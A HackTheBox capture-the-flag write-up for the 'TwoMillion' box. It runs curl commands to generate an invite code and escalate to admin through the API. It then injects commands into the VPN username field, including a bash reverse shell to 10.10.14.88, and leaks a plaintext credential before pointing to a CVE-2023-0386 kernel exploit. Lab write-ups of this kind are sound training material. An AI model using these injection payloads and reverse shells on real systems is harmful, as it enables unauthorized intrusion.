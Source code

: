 ```yaml
---
title:  HTB - TwoMillion
date: 2023-06-07 12:17:34 -0400
categories: [hackthebox , TwoMillion]
tags: [HackTheBox, API endpoints, API, CVE-2023-0386, nmap, web, rot13, curl,OverlaysFS Fuse]
image:
  path: /assets/img/post/twomillion/box-twomillion.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hack the Box - TwoMillion.
---
```


## Box Info

| Name                  | Bizness          | 
| :-------------------- | ---------------: |
| Release Date          | 07 Jun, 2023     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

## Enumeration

### Nmap

```bash
nmap -p- --min-rate 5000 -n -sS -vvv -Pn 10.10.11.221 -oG allPorts
nmap -sCV -p 22,80 10.10.11.221 -oN targeted
```

![Image](/assets/img/post/twomillion/0.png)

### Resolution DNS

```bash
echo "10.10.11.221 twomillion.htb | sudo tee -a /etc/hosts"
```

![Image](/assets/img/post/twomillion/1.png)

## Web 

When hover the mouse over "`here`" show it us the link to goes.

![Image](/assets/img/post/twomillion/2.png)

Looking in dom i found this path from a API and the instruction of how script works

![Image](/assets/img/post/twomillion/3.png)

![Image](/assets/img/post/twomillion/4.png)

Url decode for read more comfort:

```js
function verifyInviteCode(code){
var formData = {"code":code};
$.ajax({
type: "POST",
url: '/api/v1/invite/verify',
dataType: 'json',
data: formData,
success: function(response){
console.log(response);
},
error: function(response){
console.log(response);
}
});
}

function makeInviteCode(){
$.ajax({
type: "POST",
url: '/api/v1/invite/how/to/generate',
dataType: 'json',
success: function(response){
console.log(response);
},
error: function(response){
console.log(response);
}
});
}
```

Theres a interesting function called makeInviteCode so we gonna execute this function on console from inspection web.

![Image](/assets/img/post/twomillion/5.png)

If i click in the object it show us something interesting encrypte in `ROT13`

![Image](/assets/img/post/twomillion/6.png)

We can decrypt rot13 with some web page for that

![Image](/assets/img/post/twomillion/7.png)

`"In order to generate the invite code, make a POST request to /api/invite/generate"`

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

With `curl` can send a POST method for generate the invite code.

![Image](/assets/img/post/twomillion/8.png)

And the API it generate us an code in base64, it can decrypt with base64[^code] and use it for registration us web and login.

![Image](/assets/img/post/twomillion/9.png)

![Image](/assets/img/post/twomillion/10.png)

Looking in the web, I found a path in api/v1

![Image](/assets/img/post/twomillion/11.png)

## API

Abusing again the API we send a request in method GET with the Cookie

```bash
`curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=avhllptt4vvs1rbocvart3ue9b"`
```

![Image](/assets/img/post/twomillion/12.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" | jq
```

![Image](/assets/img/post/twomillion/13.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com"}' | jq
```

![Image](/assets/img/post/twomillion/14.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com", "is:admin": "True"}' | jq
```

![Image](/assets/img/post/twomillion/15.png)

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json" -d '{"email": "jack@jack.com", "is:admin": "1"}' | jq
```

![Image](/assets/img/post/twomillion/16.png)

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID="
```

![Image](/assets/img/post/twomillion/17.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": "jack"}' | jq
```

![Image](/assets/img/post/twomillion/18.png)

![Image](/assets/img/post/twomillion/19.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";whoami;"}'
```

![Image](/assets/img/post/twomillion/20.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";ls;"}'
```

![Image](/assets/img/post/twomillion/21.png)

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=" -H "Content-Type: application/json' -d '{"username": ";bash -c \"bash -i >& /dev/tcp/10.10.14.88/443 0>&1\" #"}'
```

![Image](/assets/img/post/twomillion/22.png)

```bash
rlwrap nc -lvnp 443
```

![Image](/assets/img/post/twomillion/23.png)

Enumerate linux we can see a folder with the name .env this contain a credentials in plane text. We are a www-data so we need

![Image](/assets/img/post/twomillion/24.png)

admin SuperDuperPass123

When we login the first appear is mail, this mail is lcoated in /var/mail

![Image](/assets/img/post/twomillion/25.png)

## CVE-2023-0386

Well, the mail says everything... Google it.

![Image](/assets/img/post/twomillion/26.png)

Search in google "OverlaysFS Fuse linux kernel and the fisrt poc i found is this `CVE-2023-0386`[^cve]

![Image](/assets/img/post/twomillion/27.png)

ROOT

### Source

[^code]: <https://www.base64decode.org/>
[^cve]: <https://github.com/sxlmnwb/CVE-2023-0386>